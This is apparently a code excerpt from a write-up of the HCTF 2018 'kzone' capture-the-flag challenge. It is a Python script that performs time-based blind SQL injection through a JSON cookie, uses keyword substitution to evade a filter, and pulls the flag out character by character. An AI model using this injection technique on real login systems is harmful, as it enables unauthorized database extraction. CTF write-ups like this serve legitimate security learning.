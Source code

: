 ```python
for i in range(1,50):
    print i
    for j in ss:
        payload = "admin' and (substr((select binary F1a9 from F1444g limit 1),"+str(i)+",1)='"+str(j)+"') and sleep(4) and 1='1"

        payload = payload.replace('sleep',sleep)
        payload = payload.replace('union',union)
        payload = payload.replace('=',ok)
        payload = payload.replace('#',over)
        payload = payload.replace(' ',blank)
        payload = payload.replace('ascii',ascii)
        payload = payload.replace('substr',substr)
        payload = payload.replace('or',orr)

        jsons = '{"admin_user":"'+payload+'","admin_pass":"3b30a11aaba222edd6e704e9959b94643ed4ffd9"}'

        cookie={"PHPSESSID":"t0k91etf5fecbi4t25d7hprtm3",
        "islogin":"1",
        "login_data":jsons}

        t1=time.time()
        r1 = r.get("http://kzone.2018.hctf.io",cookies=cookie)
        t2=time.time()
        #print t2
        if (t2-t1)>4:
            #print "aaaaaaaa"
            flag+=str(j)
            print i,flag
            break

```

![](/img/2018-hctf-7.png)
